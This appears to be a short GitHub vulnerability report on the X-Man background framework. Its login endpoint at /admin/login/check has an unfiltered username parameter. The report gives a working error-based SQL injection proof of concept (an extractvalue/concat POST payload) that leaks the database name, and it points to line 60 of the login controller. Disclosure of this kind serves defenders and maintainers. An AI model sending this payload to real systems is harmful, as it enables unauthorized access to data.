 X-Man is a background framework. This mining machine has a SQL injection vulnerability, which can cause data leakage

Poc：
http://ip/admin/login/check

POST: para=username[0]%3Dexp%26username[1]%3D=11 and(select extractvalue(1,concat(0x7e,(select database()))))%26password%3D213%26token%3D


Example：

![Image](https://user-images.githubusercontent.com/65259880/203694221-fcd95389-4b9c-497d-8b89-b98bcf781248.png)

Analyze:
file：https://github.com/imxiny/x-man/blob/master/Application/Admin/Controller/LoginController.class.php


![Image](https://user-images.githubusercontent.com/65259880/203694740-6d2af099-1bae-4343-8ee8-6ece50cfa261.png)


There is no filter of the parameter of the 60th line，So we can directly stitch SQL statements。
